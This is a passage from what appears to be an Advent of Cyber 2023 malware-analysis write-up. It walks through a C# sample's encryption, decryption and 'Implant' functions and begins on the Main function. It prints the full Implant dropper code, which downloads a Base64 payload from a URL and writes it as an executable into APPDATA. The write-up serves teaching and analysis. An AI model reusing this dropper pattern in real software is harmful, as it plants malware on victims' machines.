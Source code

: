 In summary, the function encrypts a plaintext string using an AES cipher (together with the key and IV values) and returns the encoded Base64 value of the encrypted version of the string.

6. Decryptor

NOTE: We won't be diving deeper into cryptography, so we will skip discussing the imported functions used to decrypt.

This function is the opposite of the Encryptor function, which expects a Base64 string, decodes it, and proceeds to the decryption to retrieve the plaintext string.

7. Implant

The last function is the Implant function. It accepts a URL string as its argument, initiates an HTTP request to the URL argument, and decodes it with Base64. It also retrieves the APPDATA path and attempts to write the contents of the Base64 decoded data into a file. Lastly, if the implanted file was written successfully, it returns its location. If not, it returns an empty string.

```
// Accepts one string: the URL of the new payload to be implanted
public static string Implant(string url)
{
    // 1. Uses the GetIt function and the URL argument. Then, decodes its output using Base64.
    byte[] bytes = Convert.FromBase64String(Program.GetIt(url));

    // 2. Retrieves the location of the APPDATA path and appends the file name of the downloaded malware.
    string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\REDACTED.exe";

    // 3. Writes the downloaded data into the APPDATA\\REDACTED.exe and returns the location of the malware if it was successfully written or returns an empty string if it failed.
    File.WriteAllBytes(text, bytes);
    if (File.Exists(text))
    {
    	return text;
    }
    return "";
}
```

In the context of malware functions, the Implant function is a dropper function. This means it downloads and stores other malware inside the compromised machine.

**Building the Malware Execution Pipeline**

Now that we have analysed the other functions in the malware sample, we will return to the Main function to complete the malware's execution pipeline. 

Again, viewing the Main function's source code is a bit overwhelming since its code block contains over 60 lines. To make things simple, let's try to split the analysis into three:

1. Code executed before the for loop

![hostname](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/de3f3bb3-a495-492d-a75a-86bc9207c877)

The first code section before the for loop executes the following:
